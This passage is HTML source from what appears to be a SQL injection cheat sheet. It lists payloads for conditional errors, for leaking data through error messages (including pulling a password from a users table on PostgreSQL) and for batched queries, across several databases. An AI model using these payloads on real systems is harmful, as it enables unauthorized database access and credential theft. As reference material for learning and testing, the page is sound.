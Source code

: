         <td>
            <code>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</code>
        </td>
    </tr>
    <tr>
        <th>
            SQLite
        </th>
        <td>
            <code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN load_extension(1) ELSE 'a' END</code>
        </td>
    </tr>
</table>

<h2>Extracting data via visible error messages</h2>
<p>
    You can potentially elicit error messages that leak sensitive data returned by your malicious query.
</p>
<table>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>SELECT 'foo' WHERE 1 = (SELECT 'secret')</code><br />
            <code>&gt; Conversion failed when converting the varchar value 'secret' to data type int.</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>SELECT CAST((SELECT password FROM users LIMIT 1) AS int)</code><br />
            <code>&gt; invalid input syntax for integer: "secret"</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))</code><br />
            <code>&gt; XPATH syntax error: '\secret'</code>
        </td>
    </tr>
</table>

<h2>Batched (or stacked) queries</h2>
<p>
    You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>Does not support batched queries.</code>
        </td>